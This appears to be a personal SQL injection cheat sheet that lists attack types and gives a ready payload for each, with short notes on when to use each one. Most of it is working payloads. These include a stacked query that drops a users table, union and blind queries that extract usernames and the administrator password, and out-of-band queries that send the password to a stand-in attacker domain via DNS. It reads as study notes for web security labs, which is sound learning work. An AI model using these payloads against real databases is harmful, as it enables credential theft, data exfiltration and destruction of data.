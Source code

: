 Types of sql injection:
- `Inline Queries`: Uncommon one that need custom implementation. `SELECT (SELECT @@version) from'
- `Stacked Queries`: Making mulitple of queries after the original one.  `; DROP TABLE users`
- `Error-based`: If the website show error messages, then we abuse this by feeding our custom query to see it as error. `AND GTID_SUBSET(@@version,0)'
- `UNION query-based`: rely on Unions. `UNION ALL SELECT 1,@@version,3`
- `Boolean-based blind`: rely on True or false result. `AND 1=1`
- `Time-based    blind`: laverage time to make sure our query have been executed.`AND 1=IF(2>1,SLEEP(5),0)`
- `Out-of-band   blind`: when all methods fails, we try to ping back to our machine. `LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))`

# When to use

## Stacked Queries
You can use Stacked queries to execute multiple queries in succession. Note that while the subsequent queries are executed, **the results are not returned to the application**. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a `DNS lookup`, `conditional error`, or `time delay`.
```
category=Accessories';SELECT PG_SLEEP(5)--
```

## Error-based
when you can see the database output has reveiled error output.
```sql
' asdfasd
```

## Union-based
When you can see the database output on the page.
```sql
--First find number of columns   
  select title, cost from product where id='a' order by 1--' where anything

--Guess datatype of columns by inserting strings at first  
  Union select 'a', Null--
--Extract informations from the database  
'  UNION SELECT username || '~' || password FROM users--
```

## Boolean-based
Use this technique if you can't see the database output but you can see different response based on true or false.
```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

## Time-based
Use this when you can't see the database output and you can't see any difference in the response. 
```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

## Out-of-Band
When none of above works try to this one.
```postgresql
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.c9.burpcollaborator.net/a"')--
```